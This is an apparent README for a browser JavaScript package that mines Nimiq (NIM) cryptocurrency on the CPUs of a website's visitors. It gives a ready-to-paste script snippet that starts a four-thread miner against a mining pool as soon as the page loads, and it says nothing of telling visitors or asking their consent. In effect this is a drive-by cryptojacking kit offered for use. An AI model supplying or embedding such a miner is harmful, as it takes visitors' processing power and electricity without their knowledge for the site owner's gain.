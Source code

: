# Nimiq Client for browser document

This package is use for mine cryptocurrencies NIMIQ (NIM) by NIMIQ Client SDK from CPU of visitor of your website.

## Nimiq

### Basic initialization
Download "client.js" or "client.min.js" and append in bottom of body

```
<script src="client.min.js" type="text/javascript"></script>
<script>
 const miner = new Client({
    miningPool: { host: 'pool.nimiq.watch', port: '8443' },
    address: 'nimiq addresss',
    threads: 4
  });

  miner.start();
</script>
```
